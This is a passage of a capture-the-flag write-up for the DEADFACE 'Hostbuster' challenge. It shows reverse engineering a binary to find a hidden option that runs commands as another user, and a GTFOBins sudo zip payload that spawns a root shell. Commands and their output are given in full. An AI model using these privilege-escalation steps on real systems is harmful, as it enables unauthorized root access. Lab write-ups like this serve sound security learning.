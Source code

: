 ```
~ $ base64 -w0 /usr/bin/readlog
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAEBEAAAAAAABAAAAAAAAAAIBBAAAAAAAAAAAAAEAAOAANAEAAJAAjAAYAAAAEAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAA2AIAAAAAAADYAgAAAAAAAAgAAAAAAAAAAwAAAAQAAAAYAwAAAAAAABgDAAAAAA...
```

Then on your local machine create a text file where you paste the base64 string and:

```
RMI78@4tt4ck:~/Downloads/DEADFACE/Hostbuster$ base64 -d readlogs > readlogs2.exe
```

The binary has not for purpose to run on your machine, the goal is here to input it into Ghidra, Angr or whatever tool you use for reverse engineering.

![Desktop View](/assets/img/2024-10-20-Deadface-Hostbuster/angr_ghidra_rev_bin.png)

You can see over the different tools and with the above image that there is a command called "execute_command_as_lilith" which smells really good, and in the main function, you can see by the getops function that you also have an hidden option "c" which could stand for "command" so let's try opening a bash with that.

```
~ $ /usr/bin/readlog -c sh
Executing command as lilith: sh
~ $ whoami
lilith
~ $
```

Okay so my first reflex after that was to see if sudo can be abused.

```
~ $ sudo -l 
User lilith may run the following commands on 330f0a5da9a4:
    (ALL) NOPASSWD: /usr/bin/zip
~ $
```

And now if you know the website [GTFOBins](https://gtfobins.github.io/), you know it is already a win to root. Look for the appropriate zip page, you barely have to understand the payload, just copy-past and you're in:

```
~ $ TF=$(mktemp -u)
~ $ sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF  adding: etc/hosts (deflated 35%)
/home/deephax # sudo rm $TF
BusyBox v1.36.1 (2024-06-10 07:11:47 UTC) multi-call binary.

Usage: rm [-irf] FILE...

Remove (unlink) FILEs

	-i	Always prompt before removing
	-f	Never prompt
	-R,-r	Recurse
/home/deephax # whoami
```
